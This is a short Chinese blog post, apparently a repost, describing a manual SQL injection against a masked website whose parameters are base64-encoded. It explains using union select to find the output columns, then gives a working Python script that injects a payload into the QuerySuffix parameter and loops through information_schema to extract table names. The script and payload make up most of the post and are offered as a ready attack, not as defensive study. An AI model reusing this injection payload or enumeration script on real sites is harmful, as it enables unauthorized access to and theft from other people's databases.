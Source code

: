 ```yaml
---
title: 一个网站SQL注入的案例
categories: 
tags: php
---
```

网站的页面提交参数做了md5转换，而且参数会带入两个SQL语句中执行。

注入是肯定存在的，但是SQLMAP怎么都跑不出来（可能原因是其中有个SQL语句总是报错）。

尝试手工，发现 order by 报错。; ) 没关系，那就直接上union select。

经过尝试发现 union select 1,2,3,4,5,6,7,8,9,10 成功爆出显示位。下面写个脚本跑表，收工。

    
    
    # -*- coding=utf-8 -*-
    #!/usr/bin/evn python
    # create: mi_white
    # Date:2017.06.29
    
    import requests
    import re
    import base64
    
    payload = """+union select 1,2,3,4,5,6,concat(0x7e, (select table_name from information_schema.tables limit ~~,1),0x7e),8,9,10 #"""
    url = '''http://www.XXXXX.com.cn/W.php?QuerySuffix=~~&page=1'''
    
    print u"正在读取表名："
    for i in xrange(1,190):
        a = payload.replace("~~",str(i))
        b = url.replace("~~", base64.encodestring(a))
        try:
            req = requests.get(b,timeout=10)
        except:
            print u"读取页面失败。"
            continue
        try:
            html = re.findall(r"~(.*)~",req.text)
            print html
        except:print u"表名读取失败。"

转载于:https://www.cnblogs.com/MiWhite/p/7096144.html

